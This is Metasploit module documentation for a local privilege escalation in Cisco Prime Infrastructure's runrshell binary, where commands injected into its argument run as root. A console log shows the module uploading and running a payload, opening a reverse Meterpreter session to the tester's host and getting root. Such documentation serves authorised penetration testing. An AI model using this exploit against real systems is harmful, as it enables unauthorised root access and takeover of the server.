 ## Vulnerable Application

This modules exploits a vulnerability in Cisco Prime Infrastructure's runrshell binary. The runrshell binary is meant to execute
a shell script as root, but can be abused to inject extra commands in the argument, allowing you to execute anything as root.
It was originally discovered by Pedro Ribeiro, and chained in the CVE-2018-15379 exploit.

## Scenarios

```
msf5 exploit(linux/local/cpi_runrshell_priv_esc) > run

[*] Started reverse TCP handler on 192.168.0.21:4444 
[*] Uploading /tmp/mYVrqmsETa.bin
[*] chmod the file with +x
[*] Executing /tmp/mYVrqmsETa.bin
[*] Sending stage (985320 bytes) to 192.168.0.23
[*] Meterpreter session 4 opened (192.168.0.21:4444 -> 192.168.0.23:55554) at 2019-06-10 11:18:13 -0500
[+] Deleted /tmp/mYVrqmsETa.bin

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```
